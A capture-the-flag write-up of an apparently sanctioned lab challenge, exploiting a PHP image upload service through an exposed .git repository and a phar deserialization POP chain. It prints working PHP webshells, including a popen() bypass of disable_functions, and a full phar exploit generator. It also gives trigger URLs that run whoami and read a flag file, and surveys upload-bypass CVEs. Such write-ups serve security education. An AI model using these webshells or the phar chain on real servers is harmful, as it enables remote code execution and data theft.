## Description
>You have been requested to perform a security check on an image validation service on a target server. Please start the service from RESOURCES and find any vulnerabilities, grab a flag from a file in server outside Webroot as proof.



## TL;DR
- PHP Deserialization vulnerability using a Phar file allowing bypass of upload validation of image files enabling execution of webshell (along with using some additional bypasses, retrieving source code from exposed .git repo, ...)

## Complete Writeup
We are greeted with a pretty basic site containing nothing but an upload functionality on `index.php`:



When uploading an image file (I tried png, jpg and jpeg), we get redirected to `index.php?success=1` showing a success message indicating `Success, file is validated and cached`. Especially the word `cached` is interesting here. Seems like the file is saved somewhere.



When uploading a .pdf file for example, the service returns an error message, saying `Sorry, there was an error while uploading your file!`.

Bruteforcing directories reveals an `/uploads` directory. This seems interesting. When requesting `/uploads`, after being redirected a couple of times, we get a 200 OK with an empty html:



Since I don't find anything else of interest, I took a closer look at the requests / responses and notice that each time after uploading an image, the server responds with a `Set-Cookie` header.

For example, when uploading a choomah.png image, it would respond with `Set-Cookie: PHPSESSID=eE5venlUa3lDZy5wbmc%3D`. The value of the cookie looks much like base64. Decoding the value gives `xNozyTkyCg.png`.
And indeed, when navigating to `/uploads/xNozyTkyCg.png`, we see the uploaded .png file:



So now we know how to navigate to our file. My guess is that we have to upload a webshell or something of the sort that bypasses the image validation they are performing.

Trying around a little, it seems as if the validation is relying purely on the filename provided by us in the request.
The server seems to check if the filename ends with a whitelisted extension and generates a seemingly random name that is 10 characters long (regardless of the name provided). The extension of the file will be detected using the filename provided (given it is one of the whitelisted extensions), but won't be 1:1 the one provided (e.g. .PnG will be .png afterwards, so probably just put to lowercase).

So basically, we are able to upload files with any content we like and we know where to access the uploaded file (from the Set-Cookie header), but I have not figured out how to get a php webshell to execute yet, since uploading it with an extension like .png or .jpg will not have the server to execute it.

This is the webshell I am uploading:
```
<?php echo system($_GET['command']); ?>
```

I have tried several ways of obfuscating the .php extension, trying to find a vulnerability in the way that the validation works vs the way the server saves the file (i.e. it passes the file extension check but gets saved with a .php extension anyway) but I have not had luck yet.
These are the resources I used:
- https://infosecwriteups.com/bypass-server-upload-restrictions-69054c5e1be4
- https://portswigger.net/web-security/file-upload

Maybe bruteforcing all sorts of extensions here will be helpful, maybe something is 
whitelisted that shouldnt be (phtml, php5, ...). So far I have tried php php2, php3, php4, php5, php6, php7, phtml, phps, pht, phtm, pgif and shtml - without luck. The only extensions that seem to work are .jpg, .jpeg, .png, .tiff and .gif.

We found that the `php.ini` file can simply be downloaded by requesting it under `/php.ini`. Especially line 312 seems interesting:
```ini
disable_functions = eval,exec,system,shell_exec,passthru,proc_open,proc_close,proc_get_status,proc_nice,proc_terminate,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,phpinfo,phpversion,ini_set,ini_get,get_loaded_extensions,version_compare,zend_version,php_uname,php_sapi_name,get_cfg_var,ini_get_all,ini_restore,get_extension_funcs,extension_loaded,dl
```

This basically disables use of several functions that are interesting for a webshell or other sorts of exploits. Probably need to find a workaround for this once we are able to execute our uploaded .php code.

After being stuck for a while, I took a look back at what I have done so far and noticed that my initial bruteforcing (which found the /uploads directory) might not have been as thorough as it should have been (Note to myself to not follow down some rabbit holes of possible exploits that come to mind and instead do everything thoroughly step-by-step especially in the beginning to avoid that mistake in the future).
Anyway, I tried a wordlist to also look for common files etc. and I found a .git repository exposed under `.git`:



The objects folder contains several objects that turned out to be source code. I did a challenge that involved getting the source code from an exposed `.git` repo a few years back. This link describes pretty well how it works: https://levelup.gitconnected.com/learning-the-internals-of-git-by-hacking-websites-c70c59303b12

After retrieving all of the source code, we find (amongst a Readme and the index.html) the following interesting files:

1. An upload.php file

2. An imageclass.php file

3. A logger.php file

Let's first take a look at `upload.php`:
```php
<?php

include "imageclass.php";

$target_dir = "uploads/";

if (isset($_POST["submit"])) {
    $image = new Image($target_dir);
    $image->validate($_FILES["fileToUpload"]);
    if ($image->validated && $image->save()) {
        header("Location: index.php?success=1");
        setcookie("PHPSESSID", base64_encode($image->filename));
	exit;
    }
}

if (isset($_GET["check"])) {
    if (file_exists($_GET["file"])) {
        header("Location: index.php?success=1");
        exit;
    }
}

header("Location: index.php?msg=1");
?>
```
- We already know the POST requets functionality implemented, which calls the `validate` and `save` function of `imageclass.php` and then upon success sets the cookie and location header.
- What we didn't know from `upload.php` is that it implements a GET endpoint as well, which passes a user-supplied string into a php `file_exists` function. We don't know this yet but this will be important later on.

Next we'll take a look at `imageclass.php`:
```php
<?php

include "logger.php";

class Image {

    private $tmp_name;
    private $data;
    private $target;
    private $logger;

    private function generateRandomString($length = 10) {
        $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
        $charactersLength = strlen($characters);
        $randomString = '';
        for ($i = 0; $i < $length; $i++) {
            $randomString .= $characters[rand(0, $charactersLength - 1)];
        }
        return $randomString;
    }

    public function __construct($target_dir) {
        if(preg_match("/\/$/", $target_dir))
            $this->target_dir = $target_dir;
        else
            $this->target_dir = $target_dir . "/";
	$this->validated = false;
        $this->logger = new Logger();
    }

    public function __destruct() {
        if (file_exists($this->filename))
            @unlink($this->filename);
    }

    public function validate($file) {
	$this->name = $file["name"];
        $this->tmp_name = $file["tmp_name"];
        $this->type = strtolower(pathinfo($this->name, PATHINFO_EXTENSION));

        if(!preg_match('/^(jpe?g|gif|png|tiff?)$/i', $this->type)) {
            $this->logger->log($file["name"] . " rejected");
            return;
        }

	do {
	    $this->filename = $this->generateRandomString() . "." . $this->type;
	    $this->target = $this->target_dir . $this->filename;
	} while (file_exists($this->target));

        $this->validated = true;
    }

    public function save() {

        if(!$this->validated) {
            $this->logger->log($this->name . " not validated!");
            return (false);
        }

        $rc = move_uploaded_file($this->tmp_name, $this->target);
        if($rc == true)
            $this->logger->log($this->name . " saved to " . $this->target);
        else
            $this->logger->log("Unable to save " . $this->name);
        return ($rc);
    }
}
?>
```
- There is the function that generates a random 10-character long string. Does not seem to be a vulnerability in here.
- `__construct` and `__destruct` functions
- We see how the `validate` function works: It gets the extension from `PATHINFO_EXTENSION` and applies a regular expression. If the extension does not match, the file gets rejected, else it becomes `validated`.
- The `save` function checks if the file has been validated. If so, the file is moved from its temporary location (The image has a `tmp_name`, which is a name generated by php. If I am not mistaken the file is stored under `/tmp/` directory with a 6 random character long name preceded by `php` (e.g. /tmp/phpABCDEF).) to it's destination under the randomly generated 10-character long string followed by the extension. Does not seem to be vulnerable either.

Last, let's take a look at the logger.php. Of course from the name itself, this class seems rather uninteresting (or not since log4j CVEs), but the fact that so much logging is going on in a CTF challenge made me curious:
```php
<?php

class Logger {
    private $fh;

    public function __construct() {
      $this->fh = false;
      $this->ext = "log";
      $this->name = "imagery";
      $this->dir = "/tmp";
      $this->rext = "bak";
    }

    public function log($msg) {

      if(strlen($msg) == 0)
        throw new Exception("Empty message");

      if($this->fh == false) {
        $this->fh = fopen($this->dir . "/" . $this->name . "." . $this->ext, "a");
        if($this->fh == false)
          throw new Exception("Failed to open logfile");
      }

      fprintf($this->fh, "%s %s\n", date(DATE_RFC822), $msg);
    }

    public function rotate() {

      $cur = $this->dir . "/" . $this->name . "." . $this->ext;
      $bak = $cur . "." . $this->rext;

      if($this->fh != false)
        fclose($this->fh);

      if(!file_exists($cur))
        returm;

      if(file_exists($bak))
        @unlink($bak);

      @rename($cur, $bak);
      $this->log("Logfile rotated");
    }

    public function __wakeup() {
      $this->rotate();

      foreach  (get_object_vars($this) as $k => $v)
        $this->$k = null;
      throw new Exception("Object is not serializable");
    }
}

?>
```
- First of all, we see some variables in the `__construct` function. These variables are used in the code to access files and two of those variables are used as extensions. Now, `.log` and `.bak` don't seem that interesting for webshells, but this will still be important later on.
- There is the `log` function which opens a filename put together from the variables from the `construct` function and appends the parameter message to the file.
- Then there is a `rotate` function. From the code, it looks like the server is working with two log files. One current log file, and the previous log file. When the function is called, the current log file has a `.bak` appended and a new current logfile is created.
- A `__wakeup` function that calls `rotate()`. After a google search, I find that
    1. The intended use of `__wakeup()` is to reestablish any database connections that may have been lost during serialization and perform other reinitialization tasks.
    2. unserialize() checks for the presence of a function with the magic name `__wakeup()`. If present, this function can reconstruct any resources that the object may have.

The `rotate` function seems a little odd, especially in a CTF challenge where the logging does not add to the minimal functionality there is. Since the wakeup function calls rotate, and we know that `__wakeup` is called from unserialize (see above), I searched for a vulerability connected to php unserialization. After a lot of searching and looking stuff up, I found a php deserialization vulnerability connected to `phar` files.

There exist several sites describing this vulnerability. I'll link some of the sources here:
- https://www.youtube.com/watch?v=fHZKSCMWqF4
- https://bananamafia.dev/post/php-deserialize-cccamp19/
- https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

What makes this vulnerability a bit special is that it does require file upload, but in turn, it does not need a single `unserialize` call in the program (as it would in usual object injection/deserialization vulnerabilities) and also it does not depend on an `include` call (as it would in LFI vulnerabilities) or a `.php` (or any other) extension.

What does it need though? From the resources, I found the following:

> If a filesystem function is called with a phar stream as an argument, the Phar’s serialized metadata automatically gets unserialized, by design.

> The main difference between doing a deserialization attack with this and just a normal deserialize call, is that the initial POP chain must start with a `__wakeup` or `__destruct` (Property Oriented Programming, similarly to ROP, works by chaining code gadgets together to achieve a goal).

So, the requirements are:
- Possibility for file upload
- Having access to a filesystem function, which we have from the GET endpoint we found in `upload.php`
- Starting the POP chain with a `__wakeup` or `__destruct`, which we also have in `logger.php` for example

Now, we are going to look specifically at `logger.php` for executing this exploit, since this class allows us to construct a POP chain that enables setting up an executable web shell.

As we know from the resources, the Phar's serialized metadata automatically gets unserialized when called with a phar stream. This means we need to construct a Phar file which will have an unserializable PHP Class (as I said, we are going to work with `logger.php`, so we need the `Logger` class) in its metadata.
When unserialized, this will create a `Logger` object. Now since we first create that class locally, we can set variable values. This gives us full control over the variables in the object:



From the resources we know that an unserialization calls the `__wakeup` function and that the POP chain needs to start with a `__wakeup` (or `__destruct`), so we know that when we successfully call a filesystem function with a phar wrapper, it  automatically unserializes the metadata and thereby triggers the `__wakeup` function which in turn calls the `rotate` function which, in turn, uses the mentioned variables.
Let's take a detailed look at how these variables are used and what we might be able to do to achieve our goal:



The function looks for a file under directory `$cur` and appends the extension saved in `$bak` to it. When the `log` function is called for the next time, it will just write to the `<dir>/<name>.<ext>` and the backup file will just sit around. Now, of course what comes to mind is to have `rotate` append `.php` instead of `.bak`, making the file in question an executable php file. Now the question is, how do we control the content of that php file. Well, we can upload a `.jpg` file containing a webshell. Then, we set:
- The `ext` variable to `.jpg` (the extension of our uploaded webshell)
- The `name` variable to `<filename>` (the filename of our uploaded webshell without extension, we get this from the cookie)
- The `dir` variable to `uploads` (the directory where uploaded webshell is in)
- The `rext` variable to `php` (which will be appended to our `uploads/<filename>.jpg` file) in the `rotate` function.

The following is what the uploaded webshell looked like. Remember: The `php.ini` we found previously file disables many webshell functions, so simply calling `system` won't work - but after looking up different possibilities, I quickly found a workaround using `popen()`.

```php
<?php

    $handle = popen($_GET['code'],'r');

    echo fread($handle,1024*4);

?>
```

I uploaded this file and took a note of the name that the server gave to it for further use in the following script.
This is what my php script looked like. It creates the class, creates the Phar Archive (notice the `__HALT_COMPILER()` function which is necessary for the webshell to work), puts it into metadata and adds a dummy file into the Archive to respect Phar Archive specifications.

```php
<?php
// Create the POP Chain
class Logger
{

	public $ext = "jpg";
	public $name = "mP7XaTthJi";
	public $dir = "uploads";
	public $rext = "php";
	
}

// Create the Phar Archive
$phar = new \Phar("test.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); )?>");

// Begin of serialization
$payload = new Logger();
$phar->setMetadata($payload);

// Zip file within the Phar Archive
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```

After executing this script locally, I receive a `.phar` file which i rename to a `.gif` and upload it. Again, I take a note of the filename returned in the cookie.

Now I can make a call with a `phar://` wrapper to it using the GET endpoint from `upload.php`:
`https://ec67b052-76a5-4c95-90cf-b065c7735e17.idocker.vuln.land/upload.php?check=1&file=phar://uploads/cEatZXBpFK.gif`

This triggers a 500 internal server error (maybe because of the HALT COMPILER?). Anyway, it does its job, namely: The injected Logger object got unserialized, triggering its `__wakeup` function which calls its `rotate` function. The `rotate` function now looks for a file at location `uploads/mP7XaTthJi.jpg` (containing my webshell) and appends a `.php` to it, making it executable.

Now I can access my webshell with the GET parameter `code` I specified inside of it:
`https://ec67b052-76a5-4c95-90cf-b065c7735e17.idocker.vuln.land/uploads/mP7XaTthJi.jpg.php?code=whoami` returns `hacker`

`https://ec67b052-76a5-4c95-90cf-b065c7735e17.idocker.vuln.land/uploads/mP7XaTthJi.jpg.php?code=cat%20../../flag.txt` returns the flag:

(I added this screenshot afterwards during writeup creation in a different session, so hostname and filenames dont match in url)

This vulnerability is fixed in PHP version 8.0:
https://php.watch/versions/8.0/phar-stream-wrapper-unserialize

## What I tried (mostly before finding source code) but didnt work & additional ideas

### Noticed mutiple file uploads possible in php.ini

Line 849 in php.ini might be interesting:
```ini
; Maximum number of files that can be uploaded via a single request
max_file_uploads = 20
```

Maybe its possible to upload several files, and depending on the validation, it only checks the first file for a valid ending.
I tried the following, but I am not sure the upload really works and also in case it does, I dont know where the second file is saved to since I only get one cookie.
Whats interesting though is, that when having the .php first, and the .png second, The upload goes through and answers with a .png cookie. When doing it the other way around, the upload does not pass validation:




So it seems, the server is looking at the last file uploaded, validates that filename and also sends the cookie for that filename back. Question is if the server saves the other file at all, and if it does, under which name.

### 2019 CVE 

I also found another CVE from 2019 (https://www.exploit-db.com/exploits/47553) but the server is running php 7.4.26 (Nov. 2019) which is not vulnerable anymore against the mentioned CVE.

### 2021 CVE

I also found this CVE from 2021 https://www.tenable.com/cve/CVE-2021-21707, allowing terminating the filename with a url encoded null byte, so filename.php%00.png would be saved as .php. However, it is fixed exactly in the PHP version 7.4.26 which is the version on the server

### 2010 CVE

I found something interesting here: https://onestepcode.com/injecting-php-code-to-jpg/
Apparently, an exploit discovered (and fixed) 2010 allows executing .jpg files as php. on nginx webservers (which is what we are dealing with here). If say the .jpg file is uploaded under /uploads/file.jpg, one could browse to /uploads/file.jpg/file.php and the file would be executed as php.
Now, the PHP version is somewhat recent (so an exploit from 2010 may not be the solution here), but I tried the exploit described and it aaactually seems to do something: I get a `403 Access denied`.



If i change anything, let's say instead of `/uploads/nNgjM0jNHu.jpg/nNgjM0jNHu.php`, I put `/uploads/nNgjM0jNHu.AAA/nNgjM0jNHu.php` or `/uploads/AAAAAAAAAA.jpg/nNgjM0jNHu.php` or `/uploads/nNgjM0jNHu.jpg/nNgjM0jNHu.AAA`, I get a `404 File not found`.

It seems the service responds with a `403 Access denied` when requesting an URL of the following form:

`/uploads/ExistingFile.jpg/Endingwith.php`

So requesting an existing file under `/uploads/existingfile.jpg` followed by `/anything.php` where the latter has to END with .php results in a `403 Access denied`. 
`.php` isnt overall blocked in url, for example requesting `/uploads/anything.php` just gives `404 Not found` so the server seems to actually looks for the vulnerability described above.

Now maybe we need to circumvent that Access denied check, which looks for a trailing `.php`. I already tried the ones listed on https://book.hacktricks.xyz/pentesting-web/file-upload, but without luck.

### Overwrite config file making image files executable as php

Another idea would be to find a way to overwrite the server's configuration for php execution, say having him execute .jpg or .png files as php files; for apache servers it would looke something like this:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
AddType application/x-httpd-php .jpg
```
However, it is an nginx server, I will have to look into how it works for that. Also, we would need to find a way to be able to overwrite config in the first place.

### Race conditions on uploaded files

For a while I thought about trying race conditions either
1. on the tmp_name before it gets deleted, but there's no way I find out the name, neither does it have a .php extension. Also (I am not sure about this) php likely prevents execution of temporary files.
2. on the file itself. This would work if the server would save the file under my provided name, then validate it and delete it in case it doesnt fit the desired extensions. That way if I could execute the file before the server finished validation. However, as we see in the source code, the server does not function that way so I also dropped this idea.

## Lessons learned
The challenge took me several days and all the things I tried and researched for bypassing the upload validation were definitely a refresh for all of those areas (obfuscation, race conditions, deserialization). Also, I learned about some new methods from the CVEs that older PHP versions were vulnerable against.

My biggest mistake was probably that when I started off, I did not go through everything step by step (in this case I missed the bruteforcable git repo at first) and instead went off chasing some potential vulnerability.